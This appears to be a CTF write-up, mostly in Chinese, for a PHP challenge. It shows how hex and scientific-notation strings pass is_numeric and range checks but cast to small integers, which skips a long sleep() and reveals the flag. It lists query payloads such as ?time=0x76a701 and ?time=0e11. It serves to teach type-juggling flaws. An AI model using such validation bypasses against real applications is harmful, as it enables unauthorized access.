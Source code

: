 # Challenge
```php 
<?php
show_source(__FILE__);
$flag = "xxxx";
if(isset($_GET['time'])){ 
        if(!is_numeric($_GET['time'])){ 
                echo 'The time must be number.'; 
        }else if($_GET['time'] < 60 * 60 * 24 * 30 * 2){ 
                        echo 'This time is too short.'; 
        }else if($_GET['time'] > 60 * 60 * 24 * 30 * 3){ 
                        echo 'This time is too long.'; 
        }else{ 
                sleep((int)$_GET['time']); 
                echo $flag; 
        } 
                echo '<hr>'; 
}
?>
```

# Solution
```
>>> 60 * 60 * 24 * 30 * 2      
5184000                        
>>> 60 * 60 * 24 * 30 * 3      
7776000                        
>>> hex(5184000)               
'0x4f1a00'                     
>>> hex(7776000)               
'0x76a700'                     
```
要是传入普通的数字比如 5184001 ，固然能过掉前两个if判断，但sleep函数就要让你等到天荒地老了。

我们通过GET或者POST传入的参数，是作为字符串保存的。is_numeric()支持普通数字型字符串、科学记数法型字符串、部分支持十六进制0x型字符串。而强制类型转换int，不能正确转换的类型有十六进制型字符串、科学计数法型字符串（部分）。

测试代码：
```php
<?php
show_source(__FILE__);
$temp = $_GET['temp'];
echo (int)$temp;
?> 
```
当传入参数为 `?temp=0x76a701` 之类的十六进制型字符串，
当传入参数如`?temp=0e11`之类的科学计数法型字符串，会输出`0`。
当传入参数如`?temp=4e11`之类的科学计数法型字符串，会输出`4`

payload：
```
?time=0x76a701
```

payload2:
```
?time=0e11
```

# Refference
 + [一题关于PHP的CTF](http://www.cnblogs.com/xishaonian/p/6724964.html)